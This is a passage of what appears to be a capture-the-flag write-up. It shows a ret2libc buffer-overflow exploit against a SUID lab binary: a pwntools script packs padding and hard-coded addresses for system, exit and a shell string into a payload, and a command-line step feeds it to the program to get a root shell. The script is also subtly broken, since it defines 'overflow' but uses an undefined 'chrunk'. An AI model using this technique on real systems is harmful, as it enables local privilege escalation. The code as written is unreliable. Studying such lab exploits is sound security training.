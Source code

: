 #### Exploit
We now have all the addresses. The correct order to push them in is system, then exit, then argument. Let's create a little python script that will convert the addresses in little endian and write them to a file, that we will give to the SUID program afterwards.
```python
from pwn import *

overflow = b"A" * 140
system_plt = pack(0xb7e6b060)
exit_plt = pack(0xb7e5ebe0)
sh_plt = pack(0xb7f8cc58)

payload = chrunk + system_plt + exit_plt + sh_plt

f = open("exploit.txt", "wb")
f.write(payload)
f.close()
```
> Given that I use the pwn package to convert to little endian, I used this script in local and then upload the exploit.txt to the VM

Then, on the machine we can execute `./exploit_me $(cat exploit.txt)` and we gain access to a root shell :
![[Images/Capture d’écran 2024-08-02 à 12.45.21.png]]
